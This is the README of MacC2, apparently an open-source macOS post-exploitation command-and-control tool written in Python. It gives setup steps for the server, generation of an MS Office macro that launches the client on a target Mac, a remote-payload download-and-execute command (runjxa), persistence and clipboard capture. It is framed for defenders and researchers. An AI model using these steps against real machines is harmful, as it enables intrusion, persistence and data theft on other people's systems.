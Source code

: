 # MacC2
MacC2 is a macOS post exploitation tool written in python that uses Objective C calls or python libraries as opposed to command line executions. I wrote this tool as a way for defenders and offensive security researchers to more easily understand the inner workings of python-based post exploitation tools on macOS. Apple plans to eventually remove scripting runtimes from base macOS installs, but it appears that python is still included by default on base installs of Big Sur. 

This tool consists of three scripts: a server script, a client script, and a macro generator.

Since the MacC2 server uses the aiohttp library for communications, you will need to install aiohttp first:

_*pip install aiohttp (if you encounter an error ensure that pip is pointing to python3, since aiohttp is a python3 library): python3 -m pip install --upgrade --force pip*_

----------

More info below:

**_On C2 Server:_**
1. Set up ssl (note: use a key size of at least 2048)

If you do not have your own cert, you can use the following to generate a self signed cert:

- 1: openssl req -new -newkey rsa:2048 -nodes -out ca.csr -keyout ca.key

- 2: openssl x509 -trustout -signkey ca.key -days 365 -req -in ca.csr -out ca.pem

_*note: the server script is hard-coded to use ca.pem and ca.key, so keep these names the same for now, or change the code appropriately_

2. Use macro_generator.py to create the MacC2 scripts with the server's IP/domain and port. macro_generator.py also builds a macro (macro.txt) that uses hex encoding to run MacC2. You can copy and paste the contents of macro.text into an MS Office document:

Usage: python3 macro_generatory.py -s [C2 Server IP/domain] -p [C2 Server Port]

-Example:

![Image](pic3.png)

3. Start the generated MacC2_server.py script to listen for a connection:

![Image](pic4.png)


**_On Client Side (the target mac host):_**
1. If you desire to not be limited by the mac sandbox and want more functionality, you may opt to copy the MacC2_client.py script to the client (assuming you have access).

2. On the client, run the MacC2_client.py script: "% python MacC2_client.py"
![Image](pic5.png)

3. On the server, you will see an inbound connection. Example below:

![Image](pic6.png)

----------

***Using MacC2***

After you receive a connection, you can use the "help" command on the server to get a list of built-in commands available. You can enter one of these commands. After entering a command and pressing Enter, the command is queued up (allows you to enter multiple commands to be executed by the client). Once you type "done" and hit Enter, all of the queued commands will be sent to the client for execution.

![Image](pic7.png)

Each command is pretty straightforward. The command options that are not OPSEC safe (i.e., command line executions or cause pop ups) are also flagged in red from the help menu.

Functions of Note:

- You can generate a Mythic C2 JXA .js payload, download it, and host it on a remote server. Then you can provide the url to the hosted file to MacC2 using the **runjxa** command to have MacC2 download and execute the Mythic .JXA payload:

**>>> runjxa <url_to_JXA_.js_payload>**

- Note: If you gain access using the MS Office macro, then the persistence method will not work due to sandboxing. The files will still be dropped and the login item will still be inserted but upon reboot the quarantine attribute prevents the persistence from executing.
----------

**_Additional Info_**

The MacC2 server uses aiohttp to easily allow for asynchronous web comms. To ensure that only MacC2 agents can access the server, the server includes the following:

- A specific user agent string check (if a request fails this check it receives a 404 Not Found)

- A specific token (if a request failes this check it receives a 404 Not Found)

The operator flow after setting everything up and getting a callback is:

- view help menu for command options

- enter command name and press enter for each command you want to run

- enter "done" and press enter to have the queued commands sent to the client for execution

- **NOTE: The default sleep is 10 seconds. The operator can change that by using the sleep [numberofseconds] command.**

- **NOTE: The MacC2 server currently does not have a way to conveniently switch between sessions when multiple clients connect. Instead the server auto switches between sessions after each command executed. So the operator will need to pay attention to the IP in the connection to know which session is being interacted with.


----------

**_Macro Limitations_**

MacC2 does NOT include any sandbox escapes and therefore all functions do not work when access is gained via the Office macro. Functions that DO work from the sandbox include:

- runjxa 

- systeminfo

- addresses

- prompt (the prompt is hidden under the python tray icon though...)

- clipboard

- shell (not OPSEC safe)

- spawn (not OPSEC safe)

- cd and listdir (sandbox prevents access for most directories but you can see the root '/' directory and potentially others as well)

----------

**_DISCLAIMER_**

This is for academic purposes and should not be used maliciously or without the appropriate authorizations and approvals.
